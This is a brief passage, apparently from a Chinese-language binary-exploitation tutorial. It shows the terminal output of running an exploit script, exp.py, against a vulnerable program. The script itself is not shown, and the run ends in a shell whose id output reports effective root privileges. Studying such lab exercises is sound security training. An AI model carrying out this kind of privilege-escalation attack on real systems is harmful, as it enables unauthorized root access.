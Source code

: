 
执行攻击获得一个 root 权限的 shell

```bash
$ python exp.py 
Calling vulnerable program
Valid Password
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```


